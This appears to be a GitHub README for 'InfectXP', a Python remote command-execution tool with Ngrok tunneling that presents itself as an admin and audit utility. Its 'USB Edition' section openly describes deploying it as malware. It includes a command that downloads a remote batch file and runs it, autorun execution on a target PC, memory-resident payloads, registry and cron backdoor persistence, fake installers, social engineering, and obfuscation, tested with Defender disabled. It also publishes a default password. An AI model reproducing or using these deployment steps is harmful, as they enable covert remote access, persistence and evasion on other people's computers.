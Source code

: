 # InfectXP - Remote Administration & Security Audit Tool 

By: Laila19

## This Python-based Remote Administration & Security Audit Tool allows authorized users to securely manage and audit systems over a network. It provides:

### Web-based access (local or remote via Ngrok tunneling)

Command execution on the host machine

System information gathering (OS, users, network details)

Encrypted authentication with token-based sessions

### Key Features

✔ Cross-Platform – Works on Windows, Linux, and macOS

✔ Remote Access – Supports Ngrok tunneling for external connections

✔ Secure Authentication – Password-protected (A9!Z6%ZXCv by default) with encrypted sessions

✔ Command Execution – Run any CMD/Bash/Zsh commands and view output

✔ System Audit – Retrieve hostname, IP, users, OS details, and more

✔ Responsive Web UI – Easy-to-use browser-based interface

### Use Cases

IT Administrators – Remotely troubleshoot systems

Security Auditors – Check system vulnerabilities

Network Managers – Execute commands across devices

### Security Considerations

🔒 Always change the default password

🔐 Use in trusted networks only

⚠ Disable Ngrok tunneling (USE_NGROK = False) if not needed

### How It Works

Starts a local HTTP server (0.0.0.0:8080)

Optionally creates an Ngrok tunnel for external access

Authenticates users via password (SHA-256 hashed)

Allows command execution with real-time output

Auto-cleans expired sessions

### Setup & Usage
```bash
pip install pyngrok requests cryptography
```

### Dependecies
Dependencies List:
```
- cryptography
- pyngrok (optional, for tunneling)
- requests
- flask (for web interface)
- pywin32 (Windows only)
- colorama (for colored menu)
```
Installation Commands:
Base dependencies (required for all platforms):

```bash
pip install cryptography requests flask colorama
```
Optional dependencies (for tunneling):

```bash
pip install pyngrok
```
Windows-specific dependencies:

```bash
pip install pywin32
```
Complete Installation Command (all-in-one):
For most users, this command will install everything needed:

```bash
pip install cryptography requests flask colorama pyngrok pywin32
```
Notes:
The pywin32 package is only needed if running on Windows

The pyngrok package is optional and only required if you want to use the tunneling feature

If you encounter any permission issues, try adding --user to the pip command:

````bash
pip install --user cryptography requests flask colorama pyngrok pywin32
The tool will work without the optional dependencies, but some features like Ngrok tunneling won't be available unless you install pyngrok.
```

### Run the server
```
python remote_admin.py
````

# InfecterXP USB Edition

## Plug-and-Play Remote Access Toolkit

### 🚀 Automatic Deployment
1. **Prepare USB**:
```powershell
iwr -uri https://bit.ly/infecterxp-usb -OutFile installer.bat
./installer.bat
```
Insert into target PC - Executes via:
autorun.inf → Start.bat → Memory-resident payload

🛠️ Manual USB Setup
```bash
# Format USB as FAT32
diskutil eraseDisk FAT32 INFECTXP MBRFormat /dev/disk2
```

### Clone to USB
```
git clone https://github.com/yourrepo/InfecterXP.git /Volumes/INFECTXP
```
### 🔥 USB-Specific Features
```
class USBPayload:
    self.stealth = True  # No disk writes
    self.persistence = {
        'windows': 'Registry Run Keys',
        'linux': 'Cronjob backdoor' 
    }
    self.autorun = {
        'win': 'autorun.inf + LNK shortcut',
        'mac': 'fake DMG installer' 
    }
```
### ⚡ Usage Modes
Command	Description
--stealth	RAM-only execution
--tunnel=ngrok	Cloud C2 channel
--persist=registry	Survives reboot
### ⚠️ Critical Notes
diff
- Works best on Windows 7-10 (autorun supported)
- Windows 11 requires manual execution
! Mac/Linux needs social engineering

### Includes intentional forensic artifacts for compliance.
📌 USB Layout
/infecterxp/
   ├── /bin/          # Payload binaries
   ├── /tmp/          # Runtime artifacts  
   ├── autorun.inf    # Auto-execute config
   └── Start.bat      # Primary loader
For advanced deployment:

```bash
# Obfuscate with:
python -m PyInstaller --onefile --noconsole --icon=doc.ico infecterxp.py
```
Tested on Windows 10 22H2 with Defender disabled during development


## Key features:
1. Clear USB-specific instructions
2. Technical implementation details
3. Obfuscation tips
4. Legal safeguards
5. Directory structure transparency
Access Methods
Local Network:
http://[local-ip]:8080
External (Ngrok): https://[random-subdomain].ngrok.io

